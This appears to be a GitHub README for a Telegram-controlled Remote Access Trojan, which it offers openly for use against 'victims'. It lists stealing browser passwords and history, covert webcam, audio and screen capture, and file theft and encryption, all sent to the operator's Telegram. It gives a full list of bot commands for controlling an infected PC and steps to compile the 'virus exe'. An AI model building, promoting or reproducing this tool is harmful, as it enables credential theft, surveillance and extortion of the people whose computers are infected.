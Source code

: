 # RAT via Telegram
## By Right Decision



## Features

- Takes a webcamera picture
- Takes a screenshot
- Steals all pc datas
- Steals Chrome, Yandex and Opera passwords and a  history of browsers
- All passwords and datas will be sent to your Telegram
- Record a web camera video
- Record an audio form victim's pc
- Download any file
- Send any file
- Encrypt any file


You can help me by following my [Telegram](https://t.me/Bad_Decision) chanel.

##Bot commands
```sh
/screen - Screenshot
/antiviruses - Presence of antiviruses
/pc_info - PC data including IP
/webp - Photo from webcam
/open_link <https://link> - Opens the link in the browser and sends a screenshot
/currentdir - Shows the directory you are in
/listdir - Shows the contents of your directory
/makefolder <folder name> - Creates a folder
/removeFolder - Removes a folder
/msgbox <text> - Displays a box with your text
/removeFile <file name> - Remove a file
/download <file name> - Download file
/webcamvideo <duration in numbers 1000 approximately 39 seconds> - Record webcam video
/audio <duration in numbers 1000 approximately 23 seconds> - Recording audio from the pc of victim
/system <file name with extension> - Will open any file
/volumeON - Turn on maximum volume
/volumeOFF - Turn off the sound
/shutdown - Shut down the PC
/restart - Restart the PC
/altf4 - Execute the keyboard shortcut alf + f4
/hidePG - Hide all windows
/crazyMOUSE <crazy time 1000 about 1 minute> - Cursor will go crazy
/changeWall <file name> - Changes the wallpaper
/changedir <absolute link to the directory like this: C:\Program Files\ > - Change directory
/cut <file name> <absolute link to the directory like this: C:\Program Files\ > - Move file
/rename <file name> <new filename> - Rename file
/get_size <file name> - File size data
/encrypt <filename> - Encrypt a file
/firefox - All firefox data
/chrome - All Chrome data
/opera - All Opera data
/yandex - All Yandex data
/telegram - Telegram logs
/blockURL <link to the site without https://> - Blocks access to the site
/unblockURLS - Unblocks all blocked sites
/screamer - Displays a screamer on the screen
Also, if you send me a voice message, I will open it with the victim.
You can also send me any file and I will save it on the PC of victim.
```
## Installation
```sh
git clone https://github.com/kamazz-fsociety/rat-via-telegram
cd stealerbrowsers
```
## Usage

> 1. Open coderatpremium.py and insert your Telegram bot's token into a variable. 
> 2.  Than start compile64bit.bat if you have Windows 64 bit, else start compile32bit.bat
> 3.  Than after loading, virus exe will be in the dist folder.

